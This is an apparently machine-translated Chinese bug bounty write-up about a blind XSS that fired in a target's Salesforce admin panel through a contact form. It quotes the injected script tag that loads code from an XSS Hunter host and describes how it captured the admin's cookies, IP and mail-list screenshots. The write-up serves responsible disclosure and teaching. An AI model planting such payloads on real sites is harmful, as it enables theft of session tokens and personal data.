



# 我是如何泄露你的会话令牌的——redacted.com 管理面板上盲人 XSS 的故事

> 原文：<https://infosecwriteups.com/how-i-was-able-to-leak-your-session-token-a-story-of-blind-xss-in-an-admin-panel-at-redacted-com-ed7868b5b733?source=collection_archive---------3----------------------->

在提交我在一个程序上发现的一个关键的服务器端请求伪造漏洞的报告两天后，我醒来时收到一封电子邮件提醒我，我的 XSS 猎人有效载荷在目标的一个子域上被触发了。

盲 XSS 漏洞是持久 XSS 漏洞的变种。当攻击者的输入被服务器保存并显示在应用程序的另一部分或另一个应用程序中时，就会发生这种情况。例如，攻击者向联系/反馈页面中注入恶意有效载荷，当应用程序的管理员查看反馈条目时，攻击者的有效载荷将被加载。攻击者的输入可以在完全不同的应用程序中执行(例如，管理员查看访问日志或应用程序异常的内部应用程序)。参考这里:[https://www . e-spin corp . com/documentation/blind-cross-site-scripting-XSS-attack-vulnerability-alert-and-solution/](https://www.e-spincorp.com/documentation/blind-cross-site-scripting-xss-attack-vulnerability-alert-and-solution/)

事情就是这样发生的。当我前一天浏览应用程序时，我看到了一个联系页面，目标用它来从网站访问者那里获取某些细节。很自然地，在每个文本字段中输入我的盲人 XSS 有效载荷，然后提交表单。这包括名、姓、组织和描述字段。做完这些后，我就睡了一夜，并没有真正期待任何积极的结果，因为我之前寻找盲人 XSS 的尝试至今没有产生任何积极的结果。

第二天早上，我醒来，吃了早餐，检查了我的电子邮件，发现一个来自 XSS·亨特的通知，表明我的有效载荷在后端 salesforce 面板中被解雇了。



Xss 向 https://redacted.target.com/开火

我很幸运！通读 html 报告显示了一个 DOM 元素，其中反映了我的有效负载。

```
<script src="/jslibrary/1581015810224/sfdc/Security.js"></script><;</script><script src="[https://xvt.xss.ht/](https://xvt.xss.ht/)"></script></head><body onunload="if(this.bodyOnUnload)bodyOnUnload();" onbeforeunload="if(this.bodyOnBeforeUnload){var s=bodyOnBeforeUnload();if(s)return s;}" onload="if(this.bodyOnLoad)bodyOnLoad();" class="hasMotif leadTab  apexPageInline sfdcBody brandQuaternaryBgr  ext-webkit ext-chrome ext-mac" onfocus="if(this.bodyOnFocus)bodyOnFocus();" marginwidth="0" marginheight="0"> 
```

该报告还捕获了易受攻击的页面 URL、用户 IP 地址、推荐代理、管理员用户的 Cookies 以及用于管理目标用户邮件列表的 MailChimp 界面的屏幕截图。这些电子邮件的标题表明，其中一些列表用于公司内部活动。



XSS·亨特的通知



不用说，该漏洞可能允许恶意用户从管理面板泄漏敏感的 PII，并可能允许她/他窃取管理员的会话令牌，从而代表管理员访问应用程序。

该 bug 已被诊断，严重性设置为高。

希望你觉得这篇文章有用。欢迎任何意见或其他形式的反馈。祝好运，狩猎愉快！